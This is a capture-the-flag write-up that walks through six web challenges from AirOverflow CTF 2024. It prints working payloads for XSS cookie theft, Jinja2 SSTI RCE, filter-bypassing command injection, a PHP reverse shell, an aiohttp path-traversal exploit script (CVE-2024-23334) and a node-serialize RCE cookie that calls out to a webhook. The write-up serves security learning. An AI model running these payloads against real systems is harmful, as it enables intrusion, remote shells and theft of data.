# AirOverflow CTF 2024 - Web Write-ups


This post contains the write-ups for all the web challenges that I solved in AirOverflow CTF.

<!--more-->

## Web

### Katana

#### Description



#### Vulnerability

In this challenge, we need to trigger XSS, visit admin bot and steals its cookie. We'll use DOM Clobbering to enable XSS and then fetch the cookie from XSS.

#### Solution

So the important part in the challenge is the following code.

```js
<script>
    const urlParams = new URLSearchParams(window.location.search);
    for(var [key, value] of urlParams) {
        if(document.getElementById(key))
        {
            document.getElementById(key).innerText = `${value}`;
        }
        else if (window.AOFCTF24)
        {
            document.write("unidentified keys <br />");
            document.write(`${key} = ${value} <br />`);
        }
        else
        {
            key = DOMPurify.sanitize(key);
            document.write(`<span style='color: red'>${key} not found in the document</span><br />`);
        }
    }
</script>
```

It takes our query parameters from `window.location.search` and loop through each such that if the `key` is the same as the `id` of an element then it changes the `innerText` of that element. (No XSS here as `innerText` doesn't allow injecting HTML).

Moving on, it checks for `window.AOFCTF24` and then uses `document.write` to print out our `key` and `value`. There's some potential XSS as `document.write` would allow injecting HTML and JavaScript. But this condition won't be true normally as `window.AOFCTF24` is not defined.

Finally, in the `else` part, it applies `DOMPurify` to our `key` and prints it out with `document.write`. Possible XSS here as well due to the usage of `document.write` but since it's using `DOMPurify` that doesn't seem to be the case.

So the workaround is to inject some HTML through the `else` part such that we make `window.AOFCTF24` something other than `undefined` so in the next loop, we can inject the XSS in the `else if` part.


DOM clobbering is a technique in which you inject HTML into a page to manipulate the DOM and ultimately change the behavior of JavaScript on the page. DOM clobbering is particularly useful in cases where XSS is not possible, but you can control some HTML on a page where the attributes id or name are whitelisted by the HTML filter. The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.


Source: https://portswigger.net/web-security/dom-based/dom-clobbering

We can inject a payload like following.

Payload for DOM Clobbering: `<a id%3dAOFCTF24><a id%3dAOFCTF24 name%3durl href%3dhttp://test.com/test.js>`

This would make the `window.AOFCTF` condition true in our `else if` part. So for the next loop, we can inject the XSS Payload as follows.

Payload for XSS: `&test=?test'.concat(document.cookie));>`

So the final payload would look like this.

Final Payload: `http://challs.airoverflow.com:33878?DOM=test&<a id%3dAOFCTF24><a id%3dAOFCTF24 name%3durl href%3dhttp://test.com/test.js>&test=?test'.concat(document.cookie));>`

Send this with admin bot and we'll get our flag in the admin's cookie.



### QrZilla

#### Description



#### Vulnerability 

In this challenge, we have a QR converter, we enter a text and it converts it into QR Code and vice versa. The vulnerability here is Server-Side Template Injection (SSTI) in which we can enter SSTI payload as text and convert it into QR Code, later scanning the same QR from the website the SSTI payload gets executed.


#### Solution

The funcitonality is simple, we're given an input box to enter some text and it'll convert it into QR Code.





Next feature, is we can enter a QR link and it'll convert it back to text for us.





Since it's returning our input, let's try injecting some SSTI in it.





So since the it returned `49` this confirmed the SSTI. Now let's try inject some Jinja2 payload to get RCE and read the flag.

Payload: `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}`





### MusicOverflow2077

#### Description



#### Vulnerability

There are two vulnerabilities here, first is Path Traversal through which we'll read the source code and then command injection by which we'll get a shell and read the flag.

#### Solution 

So the website shows a music player and each song is fetched via an API.

Capture the API `/music.php?song=`, we can get the Path Traversal.



Next, we can try reading the flag which should be at `/flag.txt` but in this challenge it's not with the same `flag.txt` name so, we need to get command injection somehow to read the flag.

Next, we can try reading other files so let's try to read the `index.php` file.


This may seem quite overwhelming with the obfuscated code, but breaking it down little by little makes it easier.

```php
<?php $_=``.[];$__=@$_;$_= $__[0]; $_1 = $__[2]; $_1++;$_1++;$_1++;$_1++;$_1++;$_1++;$_++;$_++;$_0 = $_;$_++;$_2 = ++$_; $_55 = '_'.(','^'|').('/'^'`').('-'^'~').(')'^'}');$_74 = ('{'^':').('`'^'/').('='^'{').('#'^'`').(')'^'}').('`'^'&').('@'^'r').('k'^'_'); $_ = $_2.$_1.$_2.$_0; $_($$_55[$_74.'_oEC8QYaYKp']);?>
```

I copy pasted the code and put it in a php file and ran it and got the following error.



It seems it's running `shell_exec()` but since there are no arguments parsed yet so it's throwing this error.

Going further, at the end of code, we see 2 variables.

```php
$_55 = '_'.(','^'|').('/'^'`').('-'^'~').(')'^'}');
$_74 = ('{'^':').('`'^'/').('='^'{').('#'^'`').(')'^'}').('`'^'&').('@'^'r').('k'^'_'); $_ = $_2.$_1.$_2.$_0; 
```

I ran them separately in php shell and got their values.



So we know it's expecting a `POST` parameter named `AOFCTF24_oEC8QYaYKp` and what I can conclude, this parameter has command injection vulnerability.

So I called the `POST` request at `/index.php` with a parameter `AOFCTF24_oEC8QYaYKp` and we get command injeciton.

Since it was blind, I tried getting callback using `curl` to my webhook which I successfully got.



Next is to inject some reverse shell but most of them weren't working for some reason but the following `php` shell worked.

```php
php+-r+'$sock%3dfsockopen("<your-ip>",17243)%3b`sh+<%263+>%263+2>%263`%3b'
```

Finally read the flag from `/` directory.



### Feedback

#### Description



#### Vulnerability

There's a command injection vulnerability in this but with some filters while reading the flag.txt.

#### Solution

Whatever we write in the input box, it gets reflected to us.



Now let's try injecting some command with backticks.



But we can't simply say `cat /flag.txt` as it'll say Invalid Characters.

This challenge is same as the `JazzMe` challenge which was in `PCC 23 CTF finals` so I used the same payload I used there but it didn't work due to some additional filters in this challenge.

So let's read the source code with following payload.

Payload: ``ls${IFS}-p${IFS}${IFS}|${IFS}xargs${IFS}-I${IFS}{}${IFS}cat${IFS}{}``

Basically, this command prints out everything in current directory.



Clean up the code and it'll become as follows.

```python
from fastapi import FastAPI, Request
from fastapi.responses import HTMLResponse
from fastapi.staticfiles import StaticFiles
from fastapi.templating import Jinja2Templates
import os
import subprocess

app = FastAPI(docs_url=None, redoc_url=None)
# app.mount("/static", StaticFiles(directory="static"), name="static")
templates = Jinja2Templates(directory="templates")

@app.get("/", response_class=HTMLResponse)
async def root(req: Request):
    return templates.TemplateResponse("index.html", {"request": req, "id": id})

invalid_chars = [
    " ",
    "less",
    "more",
    "head",
    "tail",
    "grep",
    "awk",
    "sed",
    "flag",
    "txt",
    "base",
    "*",
    "/",
    ";",
    "[",
    "]",
    "\\\"",
    "\\",
    "?"
]

@app.post("/submit")
async def submit(req: Request):
    data = await req.json()
    name = data.get("name")
    for char in invalid_chars:
        if char in name:
            return {"success": False, "response": "Invalid Characters"}
    try:
        get_output = subprocess.check_output(f"echo " + name, shell=True, executable="/bin/bash")
    except:
        return {"success": False, "response": "Something went wrong on our side."}
    return {"success": True, "response": get_output}

```

So we know it's using `subprocess` that actually is the reason for our command injection vuln. And there's a blacklist as well so we need to come up with something to bypass those blacklisted characters.

Since my above payload can read every file in current directory, I simply added `cd .. && cd .. &&` before it to get to `/` directory and read the flag.

So final payload is as follows.

Final Payload: ``cd${IFS}..&&cd${IFS}..&&ls${IFS}-p${IFS}${IFS}|${IFS}xargs${IFS}-I${IFS}{}${IFS}cat${IFS}{}``

Make sure to put the payload in backticks.


### Little Nightmare

#### Description



#### Vulnerability

There is a usage of `aiohttp` python module which is vulnerable to Path Traversal vulnerability.

#### Solution

The main website doesn't have much functionality but we have the source code and we see it's using `aiohttp` with version `3.9.1`.

A quick google search reveals it has many vulnerabilities and one of them is Path Traversal [CVE-2024-23334](https://security.snyk.io/vuln/SNYK-PYTHON-AIOHTTP-6209406).

We an find many PoCs online, the one which worked for me was [this](https://github.com/z3rObyte/CVE-2024-23334-PoC/blob/main/exploit.sh)

From the `Dockerfile`, we know the flag is in `/flag`.

The script needed some modification according to our challenge, so the modified script is as follows.

```bash
#!/bin/bash

url="http://challs.airoverflow.com:34094"
string="../"
payload="/js/"
file="flag" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```



### Streamify

#### Description



#### Vulnerability 

The vulnerability here is insecure deserialization in node-serialize by which we'll get the RCE.

#### Solution

The challenge shows a twitch type streaming website which doesn't have much functionality to offer. 

One of the things out of ordinary was when we visit `/profile` page, it assigns a cookie to us named `streamer` and it's base64 encoded as follows.



The cookie's values are being printed out in the response of the page. 

I tried injecting XSS and SSTI but no luck, it was HTML encoding my XSS so this didn't work and SSTI didn't show anything either.

I looked at the website's backend which was `Node JS` (We get to know this from the `X-Powered-By: Express` response header.)

Since it was node and cookie seemed something like serialized. I remembered a vulnerability in `node-serialize` which is vulnerable to RCE.

I tried a PoC payload and it worked!

This was also blind so I first tried to get a callback with curl using following cookie.

`{"streamername":"_$$ND_FUNC$$_function (){require('child_process').exec('curl https://webhook.site/c552bd8f-2b00-4e2b-a245-6b0571fd5f8b', function(error, stdout, stderr) { console.log(stdout) });}()","status":"test","age":"2`

And this worked perfectly!

